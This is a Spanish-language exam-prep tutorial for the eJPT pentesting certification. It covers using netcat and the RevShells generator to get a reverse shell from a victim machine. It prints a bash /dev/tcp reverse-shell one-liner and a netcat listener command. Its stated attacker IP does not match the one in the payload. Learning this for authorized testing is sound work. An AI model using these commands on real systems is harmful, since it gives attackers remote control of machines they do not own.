 
---
- TAG: #Introducción #hacking #basico #ReverShell #Netcat 
---
## Utilización de Netcat para el eJPT

En este apartado, vamos a hablar sobre un tema crucial para aprobar el examen eJPT: la utilización de netcat para establecer conexiones desde una máquina víctima hasta nuestra máquina atacante.

### Estableciendo Conexiones con Netcat

Para empezar, necesitaremos tener instalada nuestra máquina víctima, que puede ser cualquier distribución de Linux como Linux Mint, Kali Linux, Ubuntu, etc. Netcat nos permite establecer conectividad desde la máquina víctima a nuestra máquina atacante de manera eficiente.

#### Paso 1: Identificar la Dirección IP de la Máquina Atacante

Lo primero que debemos hacer es averiguar la dirección IP de nuestra máquina atacante. Esto lo logramos utilizando el comando `ifconfig` en la terminal:

```bash
ifconfig
```

#### Paso 2: Utilizar RevShells para Crear el Payload

Una herramienta útil para este proceso es [RevShells](https://www.revshells.com/). Esta página nos permite generar un payload para establecer una reverse shell.

1. **Seleccionar Bash -I**: En la página de RevShells, seleccionamos la opción `Bash -I`.
2. **Ingresar la Dirección IP y Puerto**: Ingresamos la dirección IP de nuestra máquina atacante y un puerto. Un puerto comúnmente utilizado es el `443`.

#### Paso 3: Generar y Ejecutar el Payload

El payload generado tendrá un aspecto similar a este:

```bash
sh -i >& /dev/tcp/1.2.3.4/443 0>&1
```

Donde `192.168.100.42` es la dirección IP de nuestra máquina atacante y `443` es el puerto.

#### Paso 4: Configurar Netcat en la Máquina Atacante

Antes de ejecutar el payload en la máquina víctima, debemos configurar nuestra máquina atacante para escuchar en el puerto especificado (en este caso, `443`). Utilizamos el siguiente comando en la terminal de la máquina atacante:

```bash
sudo nc -lvnp 443
```

#### Paso 5: Ejecutar el Payload en la Máquina Víctima

Una vez que nuestra máquina atacante está lista y escuchando, ejecutamos el payload en la máquina víctima. Esto se puede hacer directamente en la terminal de la víctima.

Si todo está configurado correctamente, recibirás una conexión en tu máquina atacante, estableciendo una reverse shell.

### Importancia de Netcat en la Explotación de Vulnerabilidades

La utilización de netcat es fundamental cuando explotamos vulnerabilidades y conseguimos ejecución remota de comandos. Si logramos inyectar un comando como el payload mencionado en la máquina víctima, obtendremos acceso remoto a dicha máquina, permitiéndonos realizar diversas acciones de pentesting.
